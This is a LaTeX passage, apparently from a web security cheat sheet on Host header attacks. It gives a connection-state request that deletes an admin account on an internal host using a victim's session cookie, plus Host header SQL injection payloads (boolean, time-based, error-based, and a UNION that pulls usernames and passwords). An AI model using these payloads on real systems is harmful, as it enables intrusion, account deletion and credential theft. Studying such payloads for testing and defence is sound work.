 \documentclass[12pt,a4paper]{article}
\begin{document}
\begin{lstlisting}[caption=Connection State Attack Example]
# Tab 1: Validation request
GET / HTTP/1.1
Host: vulnerable.com
Connection: keep-alive

# Tab 2: Exploitation request
POST /admin/delete HTTP/1.1
Host: 192.168.0.1
Cookie: session=VICTIM_SESSION
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded

csrf=TOKEN&username=admin
\end{lstlisting}


\subsubsection{7. SQL Injection via Host Header}

\begin{lstlisting}[caption=SQL Injection Attack]
# Basic SQL injection
GET / HTTP/1.1
Host: vulnerable.com' OR '1'='1

# If Host header used in SQL query:
SELECT * FROM users WHERE host = 'vulnerable.com' OR '1'='1'

# Blind SQL injection
GET / HTTP/1.1
Host: vulnerable.com' AND SLEEP(5)--

# Error-based
GET / HTTP/1.1
Host: vulnerable.com' AND 1=CONVERT(int, @@version)--

# Union-based
GET / HTTP/1.1
Host: vulnerable.com' UNION SELECT username,password FROM users--
\end{lstlisting}

\section{Host Header Validation Bypass Techniques}

\subsection{Common Bypass Techniques}
\end{document}
